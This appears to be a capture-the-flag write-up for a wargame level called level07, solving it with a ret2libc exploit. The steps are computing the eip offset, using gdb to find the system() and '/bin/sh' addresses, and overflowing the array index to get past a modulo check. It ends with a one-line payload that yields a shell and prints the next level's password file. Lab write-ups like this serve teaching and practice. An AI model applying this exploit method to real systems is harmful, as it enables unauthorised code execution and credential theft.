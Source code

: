 # level07

We're gonna use the RET2LIBC attack on this one.

We can see that `eip` is located at `0xffffd70c`.  
We know that the buffer starts at `0xffffd544`.
Thus the offset is `0xffffd70c - 0xffffd544` = `456 / 4` = `114`.


We then search `"/bin/sh"` string in the libc.

```sh
(gdb) i proc map
process 2008
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/users/level07/level07
	 0x8049000  0x804a000     0x1000     0x1000 /home/users/level07/level07
	 0x804a000  0x804b000     0x1000     0x2000 /home/users/level07/level07
	 0x804b000  0x806c000    0x21000        0x0 [heap]
	0xf7e2b000 0xf7e2c000     0x1000        0x0 
	0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
	0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
	0xf7fd0000 0xf7fd4000     0x4000        0x0 
	0xf7fd8000 0xf7fdb000     0x3000        0x0 
	0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
	0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
	0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
	0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
	0xfffdd000 0xffffe000    0x21000        0x0 [stack]
(gdb) find 0xf7e2c000,0xf7fd0000,"/bin/sh"
0xf7f897ec
1 pattern found.
(gdb) x/s 0xf7f897ec
0xf7f897ec:	 "/bin/sh"
(gdb) p/d 0xf7f897ec
$1 = 4160264172
```


We search for `system`'s address

```sh
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) p/d 0xf7e6aed0
$2 = 4159090384
```

The last problem we have is a condition on the indexes when storing a number.  
We can't use an `index % 3 == 0`.  
Unfortunately, `114 % 3 == 0`.  


To bypass this, we have to overflow the index to access this address.

```
0xffffffff / 4 + 114 + 1 = 1073741938
```


We can now create the payload :

```sh
$> (printf 'store\n4160264172\n116\nstore\n4159090384\n1073741938\nquit\n'; cat) | ./level07
[...]
$ whoami
level08
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```
